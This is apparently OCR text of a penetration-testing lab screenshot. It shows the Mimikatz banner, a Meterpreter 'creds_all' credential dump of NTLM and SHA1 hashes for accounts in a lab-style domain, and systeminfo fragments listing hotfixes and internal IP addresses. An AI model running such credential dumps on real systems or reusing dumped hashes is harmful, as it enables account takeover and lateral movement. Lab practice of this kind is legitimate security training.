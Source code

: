 .## ^ ##. "A La Vie, A L'Amour" - (oe.eo)

## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )

## \ / ## > http://blog.gentilkiwi.com/mimikatz

'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )

'#####' > http://pingcastle.com / http://mysmartlogon.com ***/

​

Success.

meterpreter > creds_all

[+] Running as SYSTEM

[*] Retrieving all credentials

msv credentials

===============

​

Username Domain NTLM SHA1 DPAPI

-------- ------ ---- ---- -----

SQL01$ INLANEFREIGHT 1d8965fd980425fcf3b9baea8f98699d a81f3b4f6675091d47b1ade3fc4b684cff51183

3

SQL01$ INLANEFREIGHT 6991907663e3f68922d24ac9a573e2c3 33058b24d5882f1dd18ce81988aa64226e2879b

5

mssqlsvc INLANEFREIGHT 8c9555327d95f815987c0d81238c7660 0a8d7e8141b816c8b20b4762da5b4ee7038b515 a1568414db09f65c238b7557bc3ceeb8

c

​

wdigest credentials

===================

​

Username Domain Password

-------- ------ --------

(null) (null) (null)

SQL01$ INLANEFREIGHT (null)

mssqlsvc INLANEFREIGHT (null)


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0